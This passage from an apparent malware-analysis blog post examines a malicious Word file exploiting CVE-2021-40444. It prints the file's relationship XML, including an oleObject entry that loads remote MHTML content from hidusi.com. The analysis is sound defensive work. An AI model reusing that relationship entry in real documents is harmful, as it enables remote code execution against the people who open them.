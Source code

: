 Then when I went to check the file I noticed two weird URLs in the relationship file.

![image-20210911074246672](/assets/img/posts/CVE-2021-40444/image-20210911074246672.png)

Relationship file

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Id="rId8" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/theme" Target="theme/theme1.xml" />
	<Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/webSettings" Target="webSettings.xml" />
	<Relationship Id="rId7" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/fontTable" Target="fontTable.xml" />
	<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="settings.xml" />
	<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/styles" Target="styles.xml" />
	<Relationship Id="rId6" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="mhtml:http://hidusi.com/e8c76295a5f9acb7/side.html!x-usc:http://hidusi.com/e8c76295a5f9acb7/side.html" TargetMode="External" />
	<Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="media/image2.wmf" />
	<Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="media/image1.jpeg" />
</Relationships>

```

>> Relationship files is the normal behavior should to contains internal/External resources such as (font, theme, and web settings, etc.) 

I found two external URLs refers to **hidusi.com** domain.

>> MHTML is a file extension for a Web page archive file format as saved by Internet Explorer. The archived Web page is an MHTML document. MHTML saves the Web page content and incorporates external resources, such as images, applets, Flash animations and so on, into HTML documents.

So I decided to add that domain name in my hosts file and establish an HTTP server through python. 
